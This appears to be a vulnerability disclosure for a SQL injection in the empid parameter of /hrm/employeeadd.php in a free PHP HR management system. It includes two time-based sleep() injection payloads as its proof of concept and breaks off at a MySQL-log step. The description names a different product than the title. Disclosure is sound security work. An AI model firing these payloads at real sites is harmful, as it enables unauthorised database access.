


# Human Resource Management System 1.0 SQL Injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A SQL Injection vulnerability in /hrm/employeeadd.php with `empid` handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

Proof of Concept:

Login as admin and go to `http://localhost/hrm/employeeadd.php`

Payload SQLi with sleep(1): /hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-

Payload SQLi with sleep(10): /hrm/employeeadd.php?empid=1%27%20or%20sleep(10)%20--%20-

Check payload at MySQL log:

